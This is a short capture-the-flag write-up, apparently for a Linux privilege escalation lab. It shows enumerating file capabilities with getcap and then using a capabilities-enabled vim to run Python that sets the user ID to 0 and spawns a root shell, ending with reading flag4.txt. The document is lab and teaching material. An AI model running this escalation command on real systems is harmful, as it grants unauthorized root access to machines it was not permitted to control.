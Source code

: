 **Step-by-Step Process:**
- First we can use the  getcap tool mentioned in the task to list enabled capabilities:

`getcap -r / 2>/dev/null`

![getcap tool scan](../../images/screenshots/linux-privilege-escalation/task8/getcap-scan.png)


- Using GTFOBins I searched and found that vim can be exploited with Capabilties.

![GTFOBins vim capabailites](../../images/screenshots/linux-privilege-escalation/task8/vim-capabilities.png)


- We use the provided script from GTFOBins, but I had to modify it for our version of python.

`./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'`

![vim capabilties exploit](../../images/screenshots/linux-privilege-escalation/task8/vim-code.png)


- Now we can see that we have root privileges with `whoami`.

![root escalation](../../images/screenshots/linux-privilege-escalation/task8/whoami.png)


- Then we can find the flag4.txt file.

![flag 4 found](../../images/screenshots/linux-privilege-escalation/task8/flag4.png)



------------------------------------------------------
